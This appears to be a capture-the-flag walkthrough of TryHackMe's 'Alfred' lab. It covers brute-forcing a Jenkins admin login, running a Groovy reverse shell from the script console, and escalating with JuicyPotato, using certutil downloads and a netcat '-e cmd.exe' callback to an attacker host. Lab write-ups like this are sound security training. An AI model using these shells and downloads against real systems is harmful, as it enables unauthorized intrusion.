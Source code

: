 # Alfred [THM](https://tryhackme.com/room/alfred)
![alfred-01](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/alfred-01.png)

## Recon

Lets scan the target with `nmap`, however do note that the target doesnt respond to pings,
so we have to add the `-Pn` switch:

`nmap -sC -sV -A -p- -Pn 10.10.80.140 -oN nmap.result`


![nmap-res-02](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/nmap-res-02.png)

We have the following: 

+ An IIS server on port 80. 
+ A Jetty server on port 8080.
+ RDP on port 3389. 

Looks like the IIS server on port 80 is a default site, still worth to take a quick look at it, maybe something is hidden there. After that we will focus on the Jetty server. 


### IIS port 80 


Lets open up our browser and navigate towards `http://10.10.80.140/`

![site-03](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-03.png)


Not much to see here, the email address may have revealed a username but nothing else here. 

I ran `ffuf` to try and find hidden content, but that came up empty. Also took a look at the source code, 
nothing there for us. I think its time to move to the Jetty server on port 8080. 



### Jetty port 8080

Lets navigate towards `http://10.10.80.140:8080/`

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/site-04.png)

We are prompted for credentials to login, no sign up link. Lets try brute forcing this, as Jenkins doenst 
impose any restrictions against this attack. 

I capture a login request in Burp, and send it to intruder: 

![login-req-05](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/login-req-05.png)


I then used a sniper attack for the admin account with `/usr/share/wordlists/john.txt`: 

![brute-06](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/brute-06.png)


Lets try to log in with `admin : admin`

![jenkins-07](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/jenkins-07.png)


Were in! Lets go to the script console: 

`http://10.10.62.32/script`


![script-08](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/script-08.png)


From here we can use the following Groovy reverse shell:

```groovy
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```


Make sure to update your IP and port. 

Then start a listener with:

`nc -lnvp 9009`

Execute the code in the script console:

![execute-09](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/execute-09.png)

This should give us a shell access to the system: 

![shell-10](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/shell-10.png)


## Privilege Escalation


If we take a look at our user's group membership with:

`net user bruce`

![groups-11](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/groups-11.png)

We can see we are a part of the administrators group. This got me thinking about user privileges. 
So i decided to take a look with:

`whoami /priv`

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/privs-12.png)


we can see we have the `SeImpersonate` privilege, lets try a [potato attack](https://github.com/ohpe/juicy-potato/tree/master).

After you download the attack to your kali machine, make sure to grab a copy of `/usr/share/windows-resources/binaries/nc.exe` to your working directory as well. 

Then start a pyhton web server with:

`python3 -m http.server 80`

Then, on the target cd into bruce's home directory and download both `nc.exe` and `JuicyPotato.exe` with:

`certutil -urlcache -f http://kali-ip/nc.exe nc.exe`

`certutil -urlcache -f hrrp://kali-ip/Juicypotato.exe potato.exe`


Start the listener on yout kali with:

`nc -lnvp 9001`

And execute the following on the target:

`potato.exe -l 9001 -p C:\windows\system32\cmd.exe -a "/c c:\Users\bruce\nc.exe -e cmd.exe kali-ip 9001" -t *`


This should give you a shell as the system:

![root-13](https://github.com/DanielIsaev/CTFs/blob/main/TryHackMe/Alfred/img/root-13.png)


